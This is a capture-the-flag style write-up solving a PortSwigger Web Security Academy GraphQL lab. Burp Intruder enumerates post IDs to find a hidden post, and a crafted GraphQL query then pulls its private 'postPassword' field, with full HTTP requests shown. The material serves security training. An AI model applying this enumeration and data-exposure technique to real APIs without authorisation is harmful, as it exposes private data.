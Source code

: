 # Lab: Accessing private GraphQL posts

**Level: APPRENTICE**

### The blog page for this lab contains a hidden blog post that has a secret password.

### To solve the lab, find the hidden blog post and enter the password.

>We recommend that you install the InQL extension before attempting this lab. InQL makes it easier to modify GraphQL queries in Repeater, and enables you to scan the API schema.

**Go to the lab:**
https://portswigger.net/web-security/graphql/lab-graphql-reading-private-posts

**For more information on using InQL, see** [Working with GraphQL in Burp Suite.](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/working-with-graphql)


**Download the extension here ->** [InQL Scanner BApp Store](https://portswigger.net/bappstore/296e9a0730384be4b2fffef7b4e19b1f)

---

**Solution**

There are different ways, but I liked this one:

1. Browse the site, clicking on various posts
2. check the proxy history in Burp Suite & notice each one is numbered
3. Since the goal is to find the missing blog post and password, you can do this manually to determine which is absent
4. OR
5. Send one of those `GET /post?postId=1` request to the intruder
6. higlight the post ID number, select a number payload, do **1 -10**, steb by **1**
8. run the attack and notice the response codes
9. Post Id's 1-2 have a response status code of 200
10. 4&5 have 200 response codes
11. But 3 has a 404 not found response
12. and anything 6 and up has a 400

Therefore, `GET /post?postId=3` is the hidden one you need to reveal

So How do you do that?

Send one of the GraphQL queries `POST /graphql/v1`  `web-security-academy.net/graphql/v1` to the repeater.

The request should look like this:

```HTTP
POST /graphql/v1 HTTP/2
Host: 0a3d00730319c7918190935f002e00b5.web-security-academy.net
Cookie: session=D2XpAN8wg0l2tfdFMV0X6DcQUPGWieHx
Content-Length: 150
Accept: application/json
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Origin: https://0a3d00730319c7918190935f002e00b5.web-security-academy.net
Referer: https://0a3d00730319c7918190935f002e00b5.web-security-academy.net/post?postId=2
Priority: u=1, i

{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\n        }\n    }",
"operationName":"getBlogPost",
"variables":{
  "id":2
  }
}

```


then, 
**Right-click on the request, select extensions -> InQL Graph Scanner -> Generate Queries with InQL Scanner**


 Now click on the InQL tab and scan the URL that you just sent there. 
 
 It should be this one:
 `web-security-academy.net/graphql/v1`
 
 Click Analyze, and open the `getBlogPosts.graphql` page and send it to repeater.
 Once that request is in the repeater request tab. 
 
 It should look like this:
```HTTP
POST /graphql/v1 HTTP/2
Host: 0a3d00730319c7918190935f002e00b5.web-security-academy.net
Content-Type: application/json
Content-Length: 228

{"query": "query {\n    getBlogPost(id: Int!) {\n        author\n        date # Timestamp scalar\n        id\n        image\n        isPrivate\n        paragraphs\n        postPassword\n        summary\n        title\n    }\n}"}

```
**Change the Int!** in the `getBlogPost(id: Int!)` query to `3` and send it.
The response should be the 3rd post, and the `"postPassword": "itsarandomstringoftext",`
will be at the bottom

**The edited request**
```HTTP
POST /graphql/v1 HTTP/2
Host: 0a3d00730319c7918190935f002e00b5.web-security-academy.net
Content-Type: application/json
Content-Length: 225

{"query": "query {\n    getBlogPost(id: 3) {\n        author\n        date # Timestamp scalar\n        id\n        image\n        isPrivate\n        paragraphs\n        postPassword\n        summary\n        title\n    }\n}"
}

```

**The response will be the third post and the** "postPassword": "stringoftext", will be at the bottom
<br>

